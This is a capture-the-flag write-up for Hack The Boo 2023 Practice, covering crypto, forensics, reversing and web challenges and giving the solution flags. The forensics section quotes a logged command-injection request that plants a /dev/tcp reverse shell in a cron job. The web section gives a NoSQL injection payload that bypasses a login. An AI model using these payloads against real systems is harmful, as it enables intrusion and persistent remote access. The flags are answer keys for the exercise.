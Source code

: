 ```yaml
---
author: pl4int3xt
layout: post
title: Hack The Boo - 2023 Practice
date: '2023-10-26 10:02:19 +0300'
description: "Hack The Boo 2023 Practice CTF"
cover: 1.jpg
useRelativeCover: true
categories: [CTF]
---
```

## Crypto
### Hexoding
```python
def main():
    first_half = FLAG[:len(FLAG)//2]
    second_half = FLAG[len(FLAG)//2:]

    hex_encoded = to_hex(first_half)
    base64_encoded = to_base64(second_half)

    with open('output.txt', 'w') as f:
        f.write(f'{hex_encoded}\n{base64_encoded}')
```
The first half is hex encoded while the other half is base64 encoded. After decoding the output we get the flag
```bash
HTB{kn0w1ng_h0w_t0_1d3nt1fy_3nc0d1ng_sch3m3s_1s_cruc14l_f0r_a_crypt0gr4ph3r___4ls0_d0_n0t_c0nfus3_enc0d1ng_w1th_encryp510n!}
```
## Forensics
### Vulnerable season
We grep for 200 ok logs then we find this log
```bash
82.179.92.206 - - [28/Sep/2023:05:21:22 -0400] "GET /wordpress/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:echo%20%22sh%20-i%20%3E&%20/dev/tcp/82.179.92.206/7331%200%3E&1%22%20%3E%20/etc/cron.daily/testconnect%20&&%20Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo%20$Mz$Tz$Vz$az$Kz$Oz|base64%20-d|rev:NULL:NULL HTTP/1.1" 200 512 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
We build the base64 string from the echo pattern and we decode it
```bash
echo fXIzTm4xZ0ViXzRfdDV5bDRuQF9nMEx7QlRI | base64 -d
}r3Nn1gEb_4_t5yl4n@_g0L{BTH
```
The flag is written from backwards so we reverse it and get this
```
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```
### Spooky Phishing
After opening the index.html file the file tries to download a file from the url with the flag
```
https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe
```
## Reversing
### CandyBowl
We runs strings for the candy bowl binary and boom we get the flag 
```
HTB{4lw4y5_ch3ck_ur_k1d5_c4ndy}
```
## Web 
### CandyVault
The website is using mongodb so we try nosql injection with the following payload
```json
{"email": {"$ne": null}, "password": {"$ne": null} }
```
Then we have to change the content type before sending the request
```
Content-Type: application/json
```
Then we get the page with the flag
```
HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}
```